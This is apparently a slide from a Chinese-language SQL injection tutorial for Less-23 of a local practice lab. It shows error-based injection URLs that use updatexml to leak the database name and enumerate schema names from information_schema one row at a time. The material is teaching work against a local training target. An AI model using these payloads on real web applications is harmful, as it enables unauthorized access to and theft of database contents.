

# Less-23_04

此时我们考虑使用第二种方法：报错注入

http://127.0.0.1/sqli/Less-23/?id=1‘ and updatexml(1,concat(0x7e,(database())),1) or ’1‘=‘1 报错出数据库

http://127.0.0.1/sqli/Less-23/?id=1‘ and updatexml(1,concat(0x7e,(select schema_name from information_schema.schemata limit 2,1)),1) or ’1‘=‘1 查询所有的数据库，使用limit进行逐个查询。